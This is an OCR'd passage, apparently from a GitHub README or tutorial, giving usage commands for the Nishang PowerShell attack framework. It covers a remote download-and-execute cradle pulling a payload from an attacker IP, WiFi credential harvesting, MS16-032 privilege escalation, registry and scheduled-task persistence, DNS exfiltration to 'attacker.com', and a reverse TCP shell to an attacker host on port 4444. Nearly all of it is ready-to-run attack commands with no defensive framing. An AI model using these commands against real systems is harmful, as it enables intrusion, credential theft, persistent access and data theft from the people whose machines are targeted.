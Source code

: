    - Place your PowerShell script on a web server that the target can access.

2. **Use Nishang to Download and Execute:**

```powershell
IEX (New-Object Net.WebClient).DownloadString('http://<attacker-ip>/payload.ps1')
```

- **`IEX`**: Short for `Invoke-Expression`, which executes the downloaded script.

### Credential Harvesting
To harvest credentials using Nishang:

1. **Run the Credential Harvesting Script:**

```powershell
.\Gather\Invoke-WiFiCredentials.ps1
```

- **`Invoke-WiFiCredentials.ps1`**: Harvests WiFi credentials stored on the system.

### Privilege Escalation
To escalate privileges using Nishang:

1. **Run the Privilege Escalation Script:**

```powershell
.\Escalation\Invoke-MS16-032.ps1
```

- **`Invoke-MS16-032.ps1`**: Exploits a known vulnerability to escalate privileges.

### Persistence Mechanisms
To establish persistence on a compromised system:

1. **Run the Persistence Script:**

```powershell
.\Persistence\Invoke-Persistence.ps1 -Registry -Daily -At 9am
```

- **`Invoke-Persistence.ps1`**: Creates a scheduled task or registry entry for persistence.

### Data Exfiltration
To exfiltrate data using DNS:

1. **Run the DNS Exfiltration Script:**

```powershell
.\Exfiltration\Invoke-DNSExfiltrator.ps1 -Data 'SensitiveData' -Domain 'attacker.com'
```

- **`Invoke-DNSExfiltrator.ps1`**: Exfiltrates data over DNS queries to a specified domain.

## Key Features and Scripts

### Reverse Shells
- **Description:** Executes reverse TCP/UDP shells and binds shells to connect back to the attacker's system.
- **Usage:**
```powershell
.\Shells\Invoke-PowerShellTcp.ps1 -Reverse -IPAddress <attacker-ip> -Port 4444
```
